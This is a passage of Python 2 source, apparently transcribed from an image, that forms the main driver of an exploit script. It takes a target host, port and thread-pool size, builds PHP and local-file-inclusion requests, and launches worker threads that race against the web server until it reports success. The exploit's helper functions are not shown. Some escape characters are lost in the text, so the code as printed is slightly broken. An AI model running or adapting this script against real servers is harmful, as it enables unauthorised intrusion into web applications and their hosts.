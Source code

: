 ```python
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port = 80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz = 10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0, poolsz):
        tp.append(ThreadWorker(e, l, maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write("r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
```